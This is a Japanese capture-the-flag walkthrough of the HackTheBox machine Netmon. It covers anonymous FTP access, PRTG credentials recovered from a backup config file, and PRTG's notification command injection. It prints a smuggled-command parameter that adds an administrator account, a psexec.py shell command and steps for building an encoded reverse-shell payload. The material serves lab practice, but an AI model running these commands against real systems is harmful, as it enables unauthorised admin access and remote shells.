


- nmap 
	- 21 ftp
	- 80 http
	- 135 msrpc
	- 139 metbios-ssn
	- 445 microsoft-ds
- FTPがanonymousでログインできCドライブ以下が参照できる
- PublicのDesktopにuser.txtがある
- 情報収集できそうなファイルの取得
	- WindowsUpdate.log
	- license.rtf
	- win.ini
	- hosts
- Windows Update logを確認
	- windows > SoftwareDistribution > DownloadはWindowsアップデートが配置される場所
- IPアドレスをブラウザで開くと「PRTG Network Monitor」のログイン画面が表示される
- PRTGのデフォルトのパスワードで認証できない
- PRTG Networkの構成ファイルを検索してみる
   
    
 - Programdata > Paessler > PRTG Network Monitorに移動
 - ファイルをダウンロード
	 - PRTG Configuration.dat
	 - PRTG Configuration.old
	 - PRTG Configuration.old.bak
- ハッシュ値を確認すると.datと.oldが同じ値なので.oldを削除
- それぞれのファイルの内容を確認
- .old内にユーザー名とパスワードがある
- パスワードを2019に変えるとログインできる
- [PRTGにコマンドインジェクションの脆弱性](https://codewatch.org/2018/06/25/prtg-18-2-39-command-injection-vulnerability/)があることがわかるのでそれを利用する   
- Setup > Account Settings > Notifications
- 一番右にあるプラスをクリックしてから、「新しい通知を追加」をクリックします。
- 他のすべてを変更せずに、一番下までスクロールして [プログラムの実行] を選択します。
- インジェクションはパラメータにあります。
- Program Fileにデモのps1ファイルを選択
- Parameterにインジェクションを入れる
```
ユーザーを追加する方法
test.txt;net user anon p3nT3st! /add;net localgroup administrators anon /add
```
- smbmapで権限確認
```
smbmap -H 10.10.10.152 -u anon -p "p3nT3st!"
```
- フルアクセス可能なのでpsexec.pyでシェルを獲る
```
psexec.py 'anon:p3nT3st!@10.10.10.152'
```
---
```
リバースシェルを取りに行く方法
※reverse.ps1はInvok-PowershellTcpInvok-PowerShellTcp.ps1
cat reverse.ps1 | iconv -t  UTF-16LE | base64 -w0 | xclip -selection clipboard
結果を直接Parameterに貼り付ける
```